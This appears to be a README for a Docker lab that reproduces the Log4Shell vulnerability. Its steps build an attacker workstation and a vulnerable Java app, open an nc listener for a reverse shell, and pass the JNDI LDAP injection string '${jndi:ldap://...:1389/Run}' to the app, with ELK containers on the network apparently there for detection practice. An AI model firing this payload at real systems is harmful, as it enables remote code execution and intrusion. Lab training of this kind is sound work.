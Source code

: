 # 3204

## Set up Attack
```
cd log4jshell-lab/attacker
docker-compose build 
docker-compose up -d 
```

## Start the java app
```
cd log4jshell-lab/victim/vuln-apps/others/basicJar
docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

## In Workstation 1
### Open Workstation Terminal
Open 2 terminals, one for nc to listen and another ro execute exploit
```
sudo docker exec -it attacker-workstation1 bash
```
### Start net cat listener 
```
nc -lvnp 443
```

### Run exploit 
Replace `127.0.0.1` with IP address of LDAP
```
cd /basicJar
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://127.0.0.1:1389/Run}'
```



# 3204


# run file
#sudo docker-compose build<br/>
#sudo docker-compose up -d 


# check IP
#sudo docker-compose ps 
	sudo docker-compose <id container> | grep IPAddress
  
# stop docker 
	sudo docker-compose kill && docker-compose rm -f 

# Network connectivity
	docker network create --driver=bridge --subnet=192.168.0.0/24 3204_network

	docker network connect --ip 192.168.0.5 3204_network web-server
	docker network connect --ip 192.168.0.6 3204_network ldap-server

	docker network connect --ip 192.168.0.2 3204_network docker-elk-main-kibana-1
	docker network connect --ip 192.168.0.3 3204_network docker-elk-main-logstash-1
	docker network connect --ip 192.168.0.4 3204_network docker-elk-main-elasticsearch-1 

